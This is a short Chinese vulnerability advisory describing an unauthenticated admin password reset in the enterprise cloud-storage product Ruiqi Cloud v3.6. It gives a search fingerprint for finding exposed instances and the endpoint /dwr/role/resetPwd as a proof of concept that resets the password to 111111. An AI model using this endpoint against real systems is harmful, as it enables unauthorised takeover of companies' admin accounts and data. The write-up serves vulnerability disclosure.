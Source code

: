 # 锐起云 resetPwd 登陆绕过漏洞

## 漏洞描述

锐起云是一款企业私有云，旨在帮助企业建立私有云存储和管理系统，帮助企业实现集中管理文档、强化数据安全、打造信息互通、数据驱动的协同办公环境。提升工作效率的同时，使数据真正为企业掌控，全程不改变用户操作习惯，是全新一代企业云盘的代表。锐起云存在前台未授权修改密码登陆后台漏洞,攻击者可以通过访问特定接口重置管理员密码。

## 漏洞影响

<a-checkbox checked>锐起云 v3.6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"锐起云"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1692239495468-467f771d-6d80-4a09-b9a0-b2bfd3f617ab-20231108133448879.png)

![img](https://cdn.nlark.com/yuque/0/2023/png/2117730/1692239627760-f17c0c2f-c561-4754-9aee-637e3fb7a5eb.png)

验证POC, 重置密码为 111111

```plain
/dwr/role/resetPwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1692239612129-491c8b3f-020c-4b72-b9d4-c547f6e681eb.png)